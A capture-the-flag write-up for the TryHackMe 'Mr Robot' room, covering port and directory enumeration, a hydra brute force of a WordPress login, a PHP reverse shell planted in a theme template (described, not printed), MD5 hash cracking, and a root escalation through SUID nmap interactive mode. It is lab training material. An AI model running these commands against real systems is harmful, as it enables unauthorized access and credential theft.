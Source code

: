 ```yaml
---
title: "Mr Robot CTF"
date: 2025-03-06
image: /assets/img/tryhackme/Mrrobot/mrrobot_image.jpg
description: Writeup of the TryHackMe-CTF Mr Robot CTF
categories: [Tryhackme, Medium]
tags: [linux, wordpress, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Mr Robot CTF</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Based on the Mr. Robot show, can you root this box?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/mrrobot">https://tryhackme.com/room/mrrobot</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Mr Robot CTF.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.233.174      
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 13:16 EST
  Nmap scan report for 10.10.233.174
  Host is up (0.036s latency).
  Not shown: 65532 filtered tcp ports (no-response)
  PORT    STATE  SERVICE
  22/tcp  closed ssh
  80/tcp  open   http
  443/tcp open   https

  Nmap done: 1 IP address (1 host up) scanned in 109.20 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,443 10.10.233.174
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 13:18 EST
  Nmap scan report for 10.10.233.174
  Host is up (0.11s latency).

  PORT    STATE  SERVICE  VERSION
  22/tcp  closed ssh
  80/tcp  open   http     Apache httpd
  |_http-server-header: Apache
  |_http-title: Site doesn't have a title (text/html).
  443/tcp open   ssl/http Apache httpd
  |_http-server-header: Apache
  | ssl-cert: Subject: commonName=www.example.com
  | Not valid before: 2015-09-16T10:45:03
  |_Not valid after:  2025-09-13T10:45:03
  |_http-title: Site doesn't have a title (text/html).

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 18.09 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The website displayed an awesome Mr. Robot-themed boot progress and command interface:

![MR Robot theme](/assets/img/tryhackme/Mrrobot/thm_mrrobot_1.jpg)

After interacting with it for a bit, I didn't find anything interesting and moved on to directory enumeration:

```gobuster
$ gobuster dir --url http://10.10.233.174/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.233.174/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              html,txt,php
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.html                (Status: 403) [Size: 214]
  /index.html           (Status: 200) [Size: 1188]
  /images               (Status: 301) [Size: 236] [--> http://10.10.233.174/images/]
  /index.php            (Status: 301) [Size: 0] [--> http://10.10.233.174/]
  /blog                 (Status: 301) [Size: 234] [--> http://10.10.233.174/blog/]
  /rss                  (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /sitemap              (Status: 200) [Size: 0]
  /login                (Status: 302) [Size: 0] [--> http://10.10.233.174/wp-login.php]
  /0                    (Status: 301) [Size: 0] [--> http://10.10.233.174/0/]
  /feed                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /video                (Status: 301) [Size: 235] [--> http://10.10.233.174/video/]
  /image                (Status: 301) [Size: 0] [--> http://10.10.233.174/image/]
  /atom                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/atom/]
  /wp-content           (Status: 301) [Size: 240] [--> http://10.10.233.174/wp-content/]
  /admin                (Status: 301) [Size: 235] [--> http://10.10.233.174/admin/]
  /audio                (Status: 301) [Size: 235] [--> http://10.10.233.174/audio/]
  /intro                (Status: 200) [Size: 516314]
  /wp-login             (Status: 200) [Size: 2613]
  /wp-login.php         (Status: 200) [Size: 2613]
  /css                  (Status: 301) [Size: 233] [--> http://10.10.233.174/css/]
  /rss2                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /license              (Status: 200) [Size: 309]
  /license.txt          (Status: 200) [Size: 309]
  /wp-includes          (Status: 301) [Size: 241] [--> http://10.10.233.174/wp-includes/]
  /readme               (Status: 200) [Size: 64]
  /readme.html          (Status: 200) [Size: 64]
  /js                   (Status: 301) [Size: 232] [--> http://10.10.233.174/js/]
  /wp-register.php      (Status: 301) [Size: 0] [--> http://10.10.233.174/wp-login.php?action=register]
  /wp-rss2.php          (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /rdf                  (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/rdf/]
  /page1                (Status: 301) [Size: 0] [--> http://10.10.233.174/]
  /robots               (Status: 200) [Size: 41]
  /robots.txt           (Status: 200) [Size: 41]
```

While `gobuster` was running, I manually searched for common files and found two entries in `robots.txt`, which I downloaded: 
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The first flag inside `key-1-of-3.txt` and the `fsocity.dic` seemed to be a wordlist that might be useful later:
```bash
$ cat key-1-of-3.txt
	[removed]
$ wc -l fsocity.dic                                  
	858160 fsocity.dic
```

Since the `gobuster` scan was completed, I started checking the directories one by one. Nothing useful - except for a WordPress instance. I used `wpscan` to check for version numbers, plugins or vulnerabilities, but nothing useful came up. Keeping the wordlist in mind, I attempted a brute-force login. Finding a valid username was easy: I simply searched for `mr robot character name list`, tried a few, and got a hit:

![WordPress login](/assets/img/tryhackme/Mrrobot/thm_mrrobot_2.jpg)

Because the wordlist was quite large, I used `hydra`, since it allows a higher number of parallel connections compared to `wpscan`. However, the estimated time was over five hours, so I canceled the process after five minutes. Assuming the password was somewhere in the wordlist, I reversed it using `tac` and tried again:  
```bash
$ cat fsocity.dic | tac > reverse_fsocity.dic
$ hydra -l 'elliot' -P reverse_fsocity.dic 10.10.211.229 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered"
	[80][http-post-form] host: 10.10.211.229   login: elliot   password: [removed]
```

Great! I was able to log in. From here, I injected a PHP reverse shell into the `404` template.

![404 Template](/assets/img/tryhackme/Mrrobot/thm_mrrobot_3.jpg)

After setting up a listener, I triggered the shell by visiting a non-existent page:
```bash
$ whoami
	daemon
$ cat key-2-of-3.txt 
	cat: key-2-of-3.txt: Permission denied
```

## Privilege Escalation robot

Since I had initial access I performed some stabilization and started to explore the machine. I found a file with an interesting extension:
```bash
daemon@linux:/home/robot$ cat password.raw-md5 
	robot:[removed]
```

A quick lookup on Crackstation revealed the plaintext password for `robot`. Using it, I retrieved the second flag:

![Crackstation](/assets/img/tryhackme/Mrrobot/thm_mrrobot_4.jpg)

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
	[removed]
```

## Privilege Escalation root

I started by checking `sudo -l`, but I had no permission. Next, I checked the sudo version, tried an exploit, but had no success. Checking for binaries with the SUID set, I found something interesting:
```bash
robot@linux:/var/tmp$ find / -perm /4000 -type f 2>/dev/null
[...]
	/usr/local/bin/nmap
[...]
```

A quick search on <a href="https://gtfobins.github.io/gtfobins/nmap/">GTFOBins</a> provided me everthing I needed:
```bash
robot@linux:/var/tmp$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# cd /root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
	[removed]
```

solved! :)
